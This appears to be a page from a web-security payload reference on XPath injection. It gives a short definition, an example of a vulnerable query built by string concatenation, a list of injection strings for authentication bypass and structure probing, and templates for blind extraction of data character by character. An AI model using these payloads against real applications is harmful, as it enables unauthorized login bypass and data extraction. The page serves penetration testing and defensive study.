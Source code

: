 # XPATH injection

XPath Injection is an attack technique used to exploit applications that construct XPath (XML Path Language) queries from user-supplied input to query or navigate XML documents.

## Exploitation

Similar to SQL : `"string(//user[name/text()='" +vuln_var1+ "' and password/text()=’" +vuln_var1+ "']/account/text())"`

```sql
' or '1'='1
' or ''='
x' or 1=1 or 'x'='y
/
//
//*
*/*
@*
count(/child::node())
x' or name()='username' or 'x'='y
' and count(/*)=1 and '1'='1
' and count(/@*)=1 and '1'='1
' and count(/comment())=1 and '1'='1
```

## Blind Exploitation

```sql
1. Size of a string
and string-length(account)=SIZE_INT

2. Extract a character
substring(//user[userid=5]/username,2,1)=CHAR_HERE
substring(//user[userid=5]/username,2,1)=codepoints-to-string(INT_ORD_CHAR_HERE)
```

## References

* [OWASP XPATH Injection](https://www.owasp.org/index.php/Testing_for_XPath_Injection_(OTG-INPVAL-010))
* [XPATH Blind Explorer](http://code.google.com/p/xpath-blind-explorer/)
